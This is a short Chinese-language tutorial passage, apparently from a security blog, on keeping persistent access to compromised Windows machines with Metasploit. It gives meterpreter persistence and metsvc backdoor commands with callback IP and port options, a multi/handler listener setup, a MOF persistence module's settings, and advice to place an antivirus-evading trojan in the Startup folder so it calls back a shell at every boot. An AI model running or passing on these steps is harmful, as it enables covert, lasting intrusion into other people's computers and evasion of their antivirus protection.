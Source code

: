 ![维持](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片61.png)  
命令：  
````
run persistence –X（开机自启） –i (回连时间间隔)–p（回连端口）-r（回连ip地址）
```   
Metsvc  
命令：run metsvc  
这个模块实在目标机安装一个名为meterpreter的服务，然后可以对目标进行回连。  
回连命令：  
```
msfconsole
Use exploit/multi/handler
Set payload windows/metsvc_bind_tcp 
set LPORT 31337
set RHOST 目标ip
```  
 当然这两个命令是不可能免杀的，对没装杀软的主机可以实行，比较方便。
对有杀软的主机，可以上传我们制作的免杀木马并且让他开机自启就行：
Winxp：
将免杀马放入程序---附件---启动里面，然后目标主机每次开机都会启动我们的免杀马，并回连shell
其他较高版本：（来自互联网）  
![维持](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片62.png)  
Msf之mof后门（现已无法免杀）  
模块已经给出：  
将里面的persistence/mof_ps_persist.rb放置到msf安装路径metasploit-framework\embedded\framework\modules\post\windows里面（windows）  
在得到会话后，将会话放置到后台，然后输入：  
```
use post/windows/mof_ps_persist
set session (获得的会话id)
set lhosts (本地ip)
set lport (本地端口)
```  
即可。  